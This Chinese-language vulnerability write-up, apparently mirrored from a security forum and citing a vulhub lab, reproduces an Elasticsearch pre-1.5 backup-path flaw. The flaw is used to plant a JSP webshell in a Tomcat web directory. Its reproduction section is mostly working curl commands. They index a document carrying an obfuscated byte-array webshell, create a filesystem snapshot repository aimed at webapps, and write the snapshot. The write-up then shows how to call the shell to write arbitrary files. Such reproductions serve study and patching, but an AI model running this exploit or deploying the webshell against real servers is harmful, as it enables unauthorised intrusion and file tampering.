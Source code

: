 # Elasticsearch 1.5.x 后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/2901](https://www.zhihuifly.com/t/topic/2901)

# Elasticsearch 1.5.x 后台getshell

## 一、漏洞简介

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

## 二、漏洞影响

Elasticsearch 1.5.x

## 三、复现过程

### 测试环境

编译与启动测试环境：

```
docker-compose build
docker-compose up -d 
```

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

### 漏洞复现

首先创建一个恶意索引文档：

```
curl -XPOST http://www.0-sec.org:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
' 
```

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

```
curl -XPUT 'http://www.0-sec.org:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}' 
```

存储库验证并创建:

```
curl -XPUT "http://www.0-sec.org:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}' 
```

完成！

访问`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![image](img/fcd2159caeb799a1863e7c3de060a310.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/WooYun-2015-110216/
